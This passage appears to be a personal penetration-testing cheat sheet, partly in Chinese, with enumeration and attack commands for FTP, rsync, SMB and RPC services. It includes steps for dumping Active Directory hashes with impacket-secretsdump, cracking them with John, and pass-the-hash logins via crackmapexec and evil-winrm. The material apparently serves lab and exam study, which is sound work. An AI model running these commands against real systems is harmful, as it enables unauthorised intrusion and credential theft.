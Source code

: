 ### windows path traversal
![image](https://hackmd.io/_uploads/S1hg-Oankl.png)
![image](https://hackmd.io/_uploads/H1zGZO6n1l.png)


## ftp
- `ftp anonymous@{IP} {Port}`
- `wget -r ftp://Anonymous@{IP}`
- `lftp -u anonymous, ftp://{IP} -e "mirror --verbose --parallel=5 --continue --target-directory ./{dir}; quit"`

## Http-proxy
- spose
```
┌──(chw㉿CHW)-[~/Tools/spose_http-proxy-scanner]
└─$ python3 spose.py --proxy http://{IP}:{http-proxy-port} --target {IP}
```
## [Rync](https://blog.gtwang.org/linux/rsync-local-remote-file-synchronization-commands/)
- `nmap -sV --script=rsync-list-modules -p {Port} {IP}`
- `rsync rsync://{IP}/{Module} --list-only`
- Download: 
`rsync -av {IP}:: {Module} .` \
`rsync -av rsync://{IP}/fox/ ./fox/`
- Upload: `rsync {File} {IP}:: {Module}`

## Windows & Samba
### [Enum4linux](https://hackmd.io/@CHW/BJ0sNztaR#enum4linux)
- `enum4linux -a {IP}`
- `enum4linux -a -u <username> -p <password> {IP}`
### smbclient
- `smbclient -N //{IP}/{DIR}`
- `smbclient -L //{IP}/. -U "anonymous"`
- `smbclient //{IP}/{DIR} -U "{DOMIN}\{USER}"`
    - Download: `smbclient -N //{IP}/{DIR} -c "prompt OFF; recurse ON; mget *"`
    - `smbclient //{IP}/'{DIR}' -U 'V.Ventz' -c "recurse ON; prompt OFF; mget *"`
- `crackmapexec smb {IP} -u 'guest' -p '' --rid-brute`
-  `nmap -p 445 --script smb-vuln* {IP}`
- `ntds.dit` + `SYSTEM` 可以爆破 AD User
    - `impacket-secretsdump  -ntds "Active Directory/ntds.dit" -system registry/SYSTEM LOCAL`
    - 將 `username:RID:LM hash:NT hash:::` 改成 `NT hash`儲存成 ADUser.hash
        - 1. John: `john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ADUser.hash`
        - 2. Pass-the-Hash: `crackmapexec winrm 192.168.122.175 -u L.Livingstone -H ADUser.hash ` (user 逐一嘗試)
            - `evil-winrm -i {IP} -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808`
    - OS :
        - SeBackupPrivilege
        - 查看 `C:\Windows\System32\config\SYSTEM`
        - Shadow copy
        - ` impacket-secretsdump  -system system -sam sam LOCAL`
### RPC
- `rpcclient -U '' -N $IP`
- `rpcclient -U "" {IP}`
- `rpcclient -U "{DOMAIN}\\{USER}" {IP}`
> `enumdomusers`: 所有使用者\
> `enumdomgroups`: 所有 Group\